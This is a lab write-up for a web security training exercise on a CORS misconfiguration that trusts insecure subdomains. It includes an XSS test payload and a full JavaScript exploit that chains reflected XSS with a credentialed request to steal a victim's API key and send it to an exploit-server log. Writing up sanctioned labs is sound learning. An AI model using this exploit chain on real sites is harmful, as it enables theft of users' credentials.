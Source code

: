 # Lab: CORS vulnerability with trusted insecure protocols

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/c889f28a-9775-4661-8c09-2ae04823949f)

## Solution

Log in using the given username and password.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/61b2943b-cf7c-496f-8603-26dbcd55ddb0)

The apikey is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/f4cf050d-5036-4861-bb0f-d06cb4f553a0)

Send the request to Burp Repeater, and resubmit it with the added header `Origin:http://malicious.com`. `Origin` is not being reflected in the `Access-Control-Allow-Origin` header.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/477d8387-24ee-4c54-9cd1-8207a90359c6)

Resubmit it by changing header `Origin: http://subdomain.lab-id` where `lab-id` is the lab domain name. The origin is reflected in the `Access-Control-Allow-Origin` header, confirming that the `CORS` configuration allows access from arbitrary subdomains, both HTTPS and HTTP.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/0c9a1342-4720-462f-a261-941b42e90585)

There is a check stock feature in the webpage. It is loaded using a HTTP URL on a subdomain.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/0b3b6c9b-1156-455b-bad5-8ea709a90901)

Change the productId parameter value to `<script>alert(420)</script>` and it's evident that `productId` parameter has a XSS vulnerability.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/50c45a7f-4c5b-4210-9b4d-c510c73414a1)

Go to exploit server and copy the following script.

```Javascript
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Click on store and deliver to victim.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/5b18d420-0e02-4f20-bea6-3aeea9a515e4)

Then go to the access logs apikey will be present in the URL.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/41847a84-6c9a-4521-8b30-c0cbf7a1ff43)

Paste the apikey in the **Submit Solution** section and finish the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/bfc6d3aa-bdf0-46b3-be4b-3969a3d0c164)
